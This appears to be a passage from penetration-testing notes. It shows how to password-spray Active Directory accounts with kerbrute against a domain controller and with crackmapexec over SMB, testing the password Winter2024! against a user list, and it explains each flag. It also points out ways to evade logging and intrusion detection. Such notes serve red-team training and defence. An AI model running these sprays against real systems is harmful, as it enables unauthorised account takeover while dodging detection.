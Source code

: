### Example: Password Spraying Using `kerbrute`
`kerbrute` can be used for password spraying against Kerberos. It creates fewer logs and does not generate Windows Event ID 4625 for failed login attempts. It can also handle large username lists efficiently.

>[!NOTE]
>We have not found a flag yet which stops kerbrute from stopping its `passwordspray` after finding the first success - this is annoying but of course a workaround could be found via scripts

```bash
kerbrute passwordspray -d EXAMPLE.COM --dc <DC-IP> userlist.txt Winter2024!
```

#### Explanation:
- **`passwordspray`**: Runs the password spray module in `kerbrute`.
- **`-d example.com`**: Specifies the target domain.
- **`--dc <DC-IP>`**: Points `kerbrute` to the domain controller's IP address.
- **`userlist.txt`**: Provides the list of usernames.
- **`Winter2024!`**: Specifies the password to be sprayed.

![ad49](/images/49.png)

### Example: Password Spraying Using `crackmapexec`
`crackmapexec` is a powerful tool for spraying credentials across SMB services and is highly versatile for both internal and external network attacks.

```bash
sudo crackmapexec --jitter 10 smb 172.16.5.5 -u userlist.txt -p Winter2024! --continue | grep +
```

#### Explanation:
- **`--jitter 10`**: Specifies the maximum time in seconds a random delay known as jitter could be - this is to attempt to bypass *Intrusion Detection Systems*
- **`smb <TARGET-IP>`**: Specifies the target IP address (can also use `smb <SUBNET>` to target a range).
- **`-u userlist.txt`**: Provides the list of usernames to spray.
- **`-p Winter2024!`**: Specifies the single password to be tested.
- **`--continue`**: Continues spraying even if some accounts authenticate successfully.
